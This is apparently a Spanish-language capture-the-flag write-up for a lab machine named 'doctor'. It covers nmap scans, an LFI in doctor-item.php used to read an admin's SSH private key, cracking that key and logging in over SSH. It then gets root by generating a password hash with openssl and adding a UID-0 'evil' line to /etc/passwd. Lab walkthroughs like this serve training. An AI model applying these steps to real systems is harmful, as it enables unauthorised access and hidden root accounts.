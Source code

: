 # Máquina doctor

### Reconocimiento de la Ip de la máquina víctima

![alt text](image.png)

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.171

![alt text](image-1.png)

### Servicios y versiones 

sudo nmap -sV --script vuln -p22,80 --min-rate 6000 -vvv 192.168.42.171

![alt text](image-3.png)

### Fuzzing web

![alt text](image-8.png)

### Entramos en la web

Al entrar en la web en el apartado doctors vemos que hay un archivo doctor-item.php con el parámetro include que llama a un archivo Doctors.html, lo que puede ser un LFI

![alt text](image-2.png)

Probamos LFI:

![alt text](image-4.png)

vemos que tenemos un usuario admin, vemos su id_rsa

![alt text](image-5.png)

copiamos el id_rsa y le sacamos el hash para crackearlo:

![alt text](image-6.png)

### Explotación

Nos conectamos mediante ssh:

![alt text](image-7.png)


### Escalar privilegios

Ejecutando la herramienta linpeas:

![alt text](image-9.png)

paso 1.- Genera una contraseña encriptada:

openssl passwd -1 "tupassword"

ejemplo de salida

pass_encriptada:

$1$2VcIqLB2$U.mQFZi487fsL.e9EyzU10

Paso 2: ejecuta nano /etc/passwd

añade la línea

evil:pass_encriptada:0:0:root:/root:/bin/bash

Paso 3: su evil

escribimos la contraseña tupassword

listo somos root !!!

![alt text](image-10.png)

![alt text](image-11.png)

### user.txt

![alt text](image-12.png)

### root.txt

![alt text](image-13.png)